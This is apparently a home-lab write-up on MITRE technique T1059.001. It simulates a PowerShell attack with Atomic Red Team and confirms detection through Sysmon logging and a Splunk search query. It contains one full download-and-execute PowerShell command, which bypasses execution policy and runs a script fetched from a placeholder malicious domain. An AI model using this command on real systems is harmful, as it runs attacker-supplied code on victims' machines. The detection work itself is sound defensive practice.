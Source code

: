 # T1059.001 – PowerShell Execution

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Objective

* Simulate a real-world PowerShell-based attack
* Confirm Sysmon logs command line activity (Event ID 1)
* Verify detection in Splunk via search queries

---

## 🧪 Atomic Command Used

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This PowerShell command reflects a common technique used by attackers to download and execute remote code.

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* Sysmon Event ID 1 logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Suspicious PowerShell usage
* Base64 encoded or obfuscated strings
* Unexpected external IPs or domains

---

## ✅ Result

* PowerShell execution logged by Sysmon (Event ID 1)
* Event successfully forwarded to Splunk
* Detection via query confirmed visibility

---

## 📸 Screenshots

### 1. Atomic Red Team payload being triggered:

![PowerShell Attack](../screenshots/T1059.001%20attack.PNG)

### 2. Splunk search showing detection:

![Log Entry](../screenshots/what%20to%20look%20for%20in%20powershell.PNG)

### 3. Log entry with PowerShell payload:

![Payload](../screenshots/what%20to%20look%20for%20in%20powershell.PNG)
